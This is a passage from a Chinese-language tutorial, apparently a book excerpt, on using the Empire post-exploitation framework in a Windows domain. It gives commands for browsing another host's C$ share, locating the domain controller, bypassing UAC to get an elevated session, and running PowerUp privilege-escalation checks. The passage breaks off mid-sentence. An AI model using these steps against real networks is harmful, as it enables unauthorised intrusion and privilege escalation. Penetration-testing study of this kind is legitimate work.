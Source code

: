 --图片--

可以通过以下命令查看该主机C盘下的文件

```
shell dir \\win7\C$
```

--图片--

### 3.5.10 获取域控服务器
通过以下命令可以确定当前的域控制器，因为已经有了域用户权限，直接输入execute即可。

```
usemodule situational_awareness/network/powerview/get_domain_controller
info
```

--图片--

## 3.6 权限提升
提权，顾名思义就是提高自己在服务器中的权限，就比如在Windows中，你本身登陆的用户是Guest，通过提权后，就会变成超级管理员，拥有了管理Windows的所有权限。以下是常见几种提权方式：

### 3.6.1 Bypass UAC
输入以下命令，设置Listener参数，运行execute，会发现成功上线了一个新的反弹，如下图：

```
usemodule privesc/bypassuac
set Listener c1ay
```

--图片--

返回agents，通过list可以看到有一个新的会话，并且带有*，说明提权成功。

--图片--

### 3.6.2 PowerUp
Empire内置了PowerUp的部分工具，用于系统提权，主要有Windows错误系统配置漏洞、Windows Services漏洞、AlwaysInstallElevated漏洞等8种提权方式，输入以下命令，然后通过tab键查看完整列表，如下图：

```
usemodule privesc/powerup/
tab
```

--图片--

（1）AllChecks模块

查找系统中的漏洞，和PowerSploit下PowerUp中的Invoke-AllChecks模块一样，该模块可以执行所有脚本检查系统漏洞，输入以下命令，如下图：

```
usemodule privesc/powerup/allchecks
```

--图片--

可以看到，我们可以通过BypassUAC进行提权，可以通过以下命令：
